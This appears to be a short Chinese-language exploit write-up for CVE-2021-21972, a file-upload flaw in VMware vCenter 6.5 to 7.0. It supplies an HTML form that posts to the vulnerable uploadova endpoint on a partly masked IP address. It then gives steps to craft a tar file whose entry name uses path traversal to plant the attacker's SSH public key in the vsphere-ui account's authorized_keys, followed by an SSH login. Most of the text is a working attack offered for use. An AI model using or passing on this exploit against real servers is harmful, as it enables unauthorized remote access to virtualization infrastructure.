 # CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞

## 参考
http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/?continueFlag=f498c1c266566c7838d9ab5bef68118c
## 漏洞细节

漏洞为任意文件上传
存在问题的接口为/ui/vropspluginui/rest/services/uploadova
- 构造exp.html

```
<html>
<head>
<title>CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞上传利用</title>
</head>
<body>
    <form action="https://221.11.xx.211/ui/vropspluginui/rest/services/uploadova" method="post" enctype="multipart/form-data">
        test：<input type="text" name="name" value="不用输入"><br>
        选择你的exp html：<input type="file" name="uploadFile"><br>
        <input type="submit" value="提交">
    </form>
<pre>
利用了接口：/ui/vropspluginui/rest/services/uploadova，上传自己的SSH生成的公钥，使用SSH进行登录。

</pre>
</body>
</html>
```
- 构造tar

```
ssh-keygen -t rsa
cp /Users/root/.ssh/id_rsa.pub authorized_keys

使用7zip 压缩authorized_keys为 authorized_keys.tar,然后编辑压缩包，修改文件authorized_keys名字为：../../home/vsphere-ui/.ssh/authorized_keys
然后保存，关闭7zip
```
- 上传

使用html上传tar即可，然后使用ssh 221.11.xx.211 进行登录

